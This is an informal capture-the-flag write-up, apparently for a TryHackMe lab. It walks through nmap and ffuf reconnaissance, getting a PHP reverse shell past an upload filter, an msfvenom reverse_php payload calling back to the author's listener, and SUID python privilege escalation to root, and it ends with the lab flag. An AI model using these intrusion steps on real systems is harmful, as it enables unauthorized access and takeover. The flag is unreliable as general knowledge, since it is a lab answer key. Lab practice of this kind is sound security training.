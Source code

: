 ### Nmap

```
┌──(root💀kali)-[~/Desktop/THM]
└─# nmap  -sT -sV 10.10.218.129
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-04 16:13 IST
Nmap scan report for 10.10.218.129
Host is up (0.41s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```




### HTTP

`http://10.10.218.129`


- found nothing in robots.txt and source code


- Found out website is running php usings wappalyzer


- Tried brute force using ffuf

```
──(root💀kali)-[~/Desktop/THM]
└─# ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.10.218.129/FUZZ  
```


Found some directories

```
uploads                 [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 408ms]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 410ms]
js                      [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 410ms]
panel                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 408ms]
```

- Found out we can uplaod a file on /panel directory


- so i uploaded the PHP rev shell i have on my system but i some some text in other language so i google it.
Turnz out it was portuguese and after translation

- it was "PHP is not allowed"

ok now i found a list of extension on the internet
https://gist.github.com/securifera/e7eed730cbe1ce43d0c29d7cd2d582f4

- used burp to capture that packet and bruteforced the extention of the file to see what ext were accepted by the server


- ok turns out almost all ext are accepted it was the browser that was blocking the php extension upload because in the brute force .php was also present

- Now i started a netcat listener on port 9999


and opened the php file on http://10.10.218.129/uploads/


http://10.10.218.129/uploads/revshell.%252ephp


- But i was getting an error. i tried searching on the internet.

- instead i went with msfvenom payload created and made a PHP reverse shell using msfvenom

```
┌──(root💀kali)-[~/Desktop/THM]
└─# msfvenom -p php/reverse_php LHOST:10.4.14.186 LPORT:9999 -f raw -o venom_revshell.php5
```

>had to change the ip and port again using mousepad because it was not update idk why


- okay this time the browse was stuck in loading page and no connection on netcat


- okay so i triead with different port nu,mber 1337 and i worked

-  great, a little break of 2 min works


okay so issue still persisted 

<mark style="background: #FF5582A6;">when i used port 8080 and changed the filenmae to a.php it worked </mark>

### Priv ESC


i followed the priv escalation notes and found all the systems with SUID bits sets using below commands


`find / -perm -u=s -type f 2>/dev/null`


Now here i didnt knew which files was supposed to be wierd so I tried them all in THM answers

i got python to be the correct one

`/usr/bin/python
`

- Now i went to 
https://gtfobins.github.io/gtfobins/python/

to check what commands to run to escalate priv for python SUID bit set

i ran the below command and I got root

>python -c 'import os; os.execl("/bin/sh", "sh", "-p")'


Now in the home directory of root i got the root flag


`THM{pr1v1l3g3_3sc4l4t10n}`




